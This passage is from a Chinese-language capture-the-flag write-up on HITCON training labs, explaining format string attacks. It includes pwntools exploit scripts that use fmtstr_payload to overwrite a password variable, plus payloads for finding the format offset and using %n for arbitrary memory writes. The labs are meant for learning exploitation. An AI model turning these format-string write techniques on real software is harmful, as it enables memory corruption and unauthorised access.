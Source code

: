 ```python
r.sendline(str(passwd[0]))
r.interactive()
```

exp2：任意地址写【使用fmtstr_payload函数】，通过printf把password改成其他已知值，然后发送已知的password即拿flag。

```python
from pwn import *
context.log_level = 'debug'

cn = process('./crack')

p_pwd = 0x0804A048
fmt_len = 10

cn.recv()

pay = fmtstr_payload(fmt_len,{p_pwd:1}) #设置0x0804A048地址存储0x00000001
cn.sendline(pay)

cn.recv()
cn.sendline('1')
cn.recv()
cn.recv()
```

### lab8

同样是利用格式化字符串，考察的是格式化字符串的任意地址写。

通过修改magic【位于bss段】触发if语句，从而执行`system("cat /home/craxme/flag");`等

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab81.png)

##### 确定偏移

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab82.png)

通过输入`AAAA%x,%x,%x,%x,%x,%x,%x,%x,%x`，确定format字符串位于第7个参数位置。

任意地址读：使用”n$“操作符，如`%2$d`

因此可以使用`AAAA%n$x`来计算偏移。

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab83.png)

##### 任意地址写

<u>%n - 获得到目前为止所写的字符数，将其【int型】写到指定的地址中。【影响起始地址开始的4个字节】</u>

```c++
int c = 0; 
printf("the use of %n", &c); //注意在使用%n时，进行的是写，因此传参是&c，而非c
printf("%d\n", c);
return 0;
//输出the use of 11
```
